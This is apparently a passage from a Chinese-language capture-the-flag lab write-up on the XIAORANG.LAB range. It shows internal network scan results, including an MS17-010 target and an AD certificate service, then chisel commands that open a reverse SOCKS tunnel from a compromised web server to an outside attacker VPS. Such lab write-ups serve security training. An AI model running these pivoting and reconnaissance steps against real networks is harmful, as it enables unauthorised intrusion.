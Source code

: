 ```shell
[*] NetBios: 172.22.15.35    XIAORANG\XR-0687
[*] NetBios: 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle: http://172.22.15.26       code:200 len:39962  title:XIAORANG.LAB
[*] WebTitle: http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.15.24       code:302 len:0      title:None 跳转 url: http://172.22.15.24/www
[+] http://172.22.15.18 poc-yaml-active-directory-certsrv-detect
[*] WebTitle: http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

## Net 172.22.15.26/24

- 172.22.15.13
- - Windows Server 2016 Standard 14393
- - DC XR-DC01.xiaorang.lab
- 172.22.15.18
- - XR-CA.xiaorang.lab
- - IIS Windows Server
- - poc-yaml-active-directory-certsrv-detect
- 172.22.15.24
- - Windows Server 2008 R2 Enterprise 7601 Service Pack 1
- - WORKGROUP\XR-WIN08
- - MS17-010
- - HTTP - 172.22.15.24/www/sys/index.php
- 172.22.15.26
- - HTTP - title:XIAORANG.LAB
- 172.22.15.35
- - XIAORANG\XR-0687

## 入口点 建立代理枢纽

```shell title="vps"
root@jmt-projekt:~# ./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
[3] 104848
2024/07/26 14:54:16 server: Reverse tunnelling enabled
2024/07/26 14:54:16 server: Fingerprint YD3Q0ZtfOkuluprJwabcvK5nCT6F1qxLl5pFCh7OGoI=
2024/07/26 14:54:16 server: Listening on http://0.0.0.0:1337
```

```shell title="入口点 172.22.15.26"
(remote) www-data@ubuntu-web:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 R:0.0.0.0:10000:socks &
[1] 3364
2024/07/26 14:54:39 client: Connecting to ws://139.*.*.*:1337
2024/07/26 14:54:39 client: Connected (Latency 43.474586ms)
```

成功建立转发

```shell title="vps"
2024/07/26 14:54:39 server: session#1: tun: proxy#R:10000=>socks: Listening
```
